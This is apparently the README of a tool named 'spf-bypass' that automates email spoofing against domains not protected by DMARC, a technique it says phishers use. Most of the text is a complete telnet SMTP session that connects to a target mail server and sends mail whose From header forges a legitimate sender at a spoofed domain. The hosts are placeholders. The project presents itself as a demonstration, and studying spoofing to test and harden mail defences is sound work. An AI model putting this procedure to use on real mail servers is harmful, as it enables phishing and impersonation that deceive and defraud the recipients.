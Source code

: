 # spf-bypass
PLEASE NOTE THIS PROJECT WILL BE SUBJECT TO FREQUENT CHANGES

This project automates and demonstrates SPF-bypass techniques utilised by phishers to abuse domains that haven't been secured by DMARC.

The executable itself simply provides an interactive console for implementing the below telnet commands that can be executed on any Windows or Linux machine.

    telnet target.mailserver.com 25

    helo attackerdomain.com

    mail from: attacker@attackerdomain.com

    rcpt to: target@target.com.au

    data

    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>

    to: target@target.com.au

    subject: Presentation - Email Demo

    This is a test

    .
